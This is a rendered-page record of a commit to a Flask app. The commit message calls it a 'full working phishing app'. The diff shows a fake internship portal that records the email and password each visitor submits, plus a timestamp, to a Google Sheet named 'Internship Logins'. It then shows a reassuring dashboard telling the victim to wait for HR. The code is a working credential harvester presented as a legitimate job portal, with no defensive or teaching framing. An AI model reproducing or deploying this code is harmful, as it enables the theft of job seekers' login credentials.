
After one commit to Adibaba26/internship-backend, a Flask app: page /dashboard in a window 1280 px wide. The commit adds this page. Shown: the top 300 px of the page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Full working phishing app with Google Sheets + UI

```diff
--- a/app.py
+++ b/app.py
@@ -1,23 +1,36 @@
-from flask import Flask, render_template, request
+from flask import Flask, render_template, request, redirect
 import os
+import gspread
+from oauth2client.service_account import ServiceAccountCredentials
+from datetime import datetime
 
 app = Flask(__name__)
 
+# Google Sheets setup
+scope = ["https://spreadsheets.google.com/feeds", "https://www.googleapis.com/auth/drive"]
+creds = ServiceAccountCredentials.from_json_keyfile_name("phishing-creds.json", scope)
+client = gspread.authorize(creds)
+sheet = client.open("Internship Logins").sheet1
+
 @app.route('/')
-def index():
+def home():
     return render_template('login.html')
 
 @app.route('/login', methods=['POST'])
 def login():
     email = request.form['email']
     password = request.form['password']
+    timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
 
-    # Save to a text file (will not work on Railway, just for local testing)
-    with open("credentials.txt", "a") as f:
-        f.write(f"{email} | {password}\n")
+    # Log to Google Sheet
+    sheet.append_row([email, password, timestamp])
 
-    return "Login submitted successfully!"
+    return redirect('/dashboard')
 
-if __name__ == '__main__':
+@app.route('/dashboard')
+def dashboard():
+    return render_template('dashboard.html')
+
+if __name__ == "__main__":
     port = int(os.environ.get("PORT", 8080))
     app.run(host='0.0.0.0', port=port)
--- a/requirements.txt
+++ b/requirements.txt
@@ -6,3 +6,6 @@ itsdangerous==2.2.0
 Jinja2==3.1.6
 MarkupSafe==3.0.2
 Werkzeug==3.1.3
+gspread
+oauth2client
+flask
--- /dev/null
+++ b/templates/dashboard.html
@@ -0,0 +1,36 @@
+<!DOCTYPE html>
+<html lang="en">
+<head>
+  <meta charset="UTF-8">
+  <title>Internship Portal</title>
+  <style>
+    body {
+      font-family: sans-serif;
+      background-color: #f0f4f8;
+      padding: 30px;
+      text-align: center;
+    }
+    .card {
+      max-width: 500px;
+      margin: auto;
+      background: white;
+      padding: 30px;
+      border-radius: 16px;
+      box-shadow: 0 4px 12px rgba(0,0,0,0.1);
+    }
+    .card h1 {
+      margin-bottom: 10px;
+    }
+    .card p {
+      color: #555;
+    }
+  </style>
+</head>
+<body>
+  <div class="card">
+    <h1>Welcome to the Internship Portal</h1>
+    <p>Your application is being processed.</p>
+    <p>Please wait for HR to contact you via email.</p>
+  </div>
+</body>
+</html>
```
Also changed, not shown: templates/login.html (+50 -11 lines).
